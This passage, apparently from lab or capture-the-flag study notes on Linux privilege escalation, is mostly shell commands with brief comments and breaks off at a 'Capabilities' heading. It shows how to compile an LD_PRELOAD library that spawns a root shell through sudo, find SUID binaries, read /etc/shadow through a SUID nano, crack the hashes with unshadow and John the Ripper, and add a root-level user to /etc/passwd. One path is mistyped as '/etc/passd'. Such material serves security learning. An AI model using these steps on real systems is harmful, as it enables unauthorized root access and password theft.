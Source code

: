       ```shell
      #save and compile into a .so file
      gcc -fPIC -shared -o shell.so shell.c -nostartfiles

      #run program with LD_PRELOAD
      #for program to work, real user ID should be same as effective user ID
      sudo LD_PRELOAD=/home/user/ldpreload/shell.so find

      #this will produce a shell spawn with root
      ```

  * SUID:

    * SUID (Set-user identification) and SGID (Set-group identification) allow files to be executed with the permission level of the file owner or group owner; these files will have an 's' bit in permissions:

      ```shell
      #list files that have SUID or SGID bits set
      find / -type f -perm -04000 -ls 2>/dev/null
      ```

    * From this list, we can compare executables with [GTFOBins](https://gtfobins.github.io/), by filtering the SUID bit.

    * For example, if ```nano``` is owned by root and has SUID bit set, we can use two options for privilege escalation:

      ```shell
      #first method is to read the /etc/shadow file
      #as nano has SUID bit set

      nano /etc/shadow #prints contents

      nano /etc/passwd

      #store both outputs in separate text files
      #we can use unshadow tool to create crackable file by John The Ripper

      /usr/sbin/unshadow passwd.txt shadow.txt > passwords.txt

      #John The Ripper can attempt to return passwords in cleartext
      /usr/sbin/john passwords.txt
      ```

      ```shell
      #second method is to add user to /etc/passwd file
      #we need hash value of new user to be added
      openssl passwd -1 -salt THM password1 #gives hashed password

      nano /etc/passd #add new username and password to it
      #add root:/bin/bash for shell

      #switch to this user
      su newusername #now we will have root access
      ```

  * Capabilities:
